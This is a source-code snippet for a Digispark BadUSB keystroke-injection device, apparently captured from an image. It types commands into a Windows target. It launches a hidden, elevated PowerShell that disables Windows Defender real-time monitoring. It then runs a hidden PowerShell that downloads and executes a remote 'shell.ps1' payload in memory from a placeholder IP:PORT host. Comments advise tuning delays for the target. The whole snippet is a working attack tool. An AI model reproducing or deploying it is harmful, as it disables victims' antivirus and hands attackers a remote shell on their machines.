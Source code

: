 ```cpp
  DigiKeyboard.delay(200);
  DigiKeyboard.sendKeyStroke(79);
  DigiKeyboard.delay(200);
  DigiKeyboard.sendKeyStroke(KEY_ENTER); // tab 4
  DigiKeyboard.delay(400);
  DigiKeyboard.sendKeyStroke(43); //43 stands for the ALT key.
  DigiKeyboard.delay(400);
  DigiKeyboard.sendKeyStroke(43);
  DigiKeyboard.delay(400);
  DigiKeyboard.sendKeyStroke(43);
  DigiKeyboard.delay(400);
  DigiKeyboard.sendKeyStroke(43);
  DigiKeyboard.delay(400);
  DigiKeyboard.sendKeyStroke(KEY_SPACE);
  DigiKeyboard.delay(400);
  DigiKeyboard.sendKeyStroke(KEY_ARROW_LEFT);
  DigiKeyboard.delay(400);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_F4,MOD_ALT_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_D, MOD_GUI_LEFT);
  DigiKeyboard.delay(600);

// Turns off Real Time Monitoring. High delays are added in this section, edit them according to your target.
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(100);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(200);
  DigiKeyboard.print("powershell -w hidden start powershell -A 'Set-MpPreference -DisableRea $true' -V runAs");
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(4000);
  DigiKeyboard.sendKeyStroke(KEY_ARROW_LEFT);
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(2000);

// Downloads the payload and executes it in the background. Payload isn't stored, just executed. Use task manager to terminate the shell.
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.print("powershell -windowstyle hidden \"IEX (New-Object Net.WebClient).DownloadString('http://IP:PORT/shell.ps1');\"");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  
  for (;;) {
    /*empty*/
  }
}
```
